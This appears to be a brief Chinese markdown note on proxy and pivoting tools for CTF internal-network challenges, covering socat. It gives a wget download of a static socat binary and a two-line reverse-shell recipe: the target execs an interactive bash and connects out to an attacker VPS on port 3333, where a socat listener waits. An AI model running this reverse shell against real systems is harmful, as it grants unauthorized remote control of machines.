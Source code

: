 # 记录一些代理工具

>目前是用与ctf的内网环境代理出内网。

### socat
地址：http://www.iteait.com/archives/603

socat下载:地址
https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat

直接wget https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat

```

靶机：socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:vps:3333

主机：socat file:`tty`,raw,echo=0 tcp-listen:3333
```










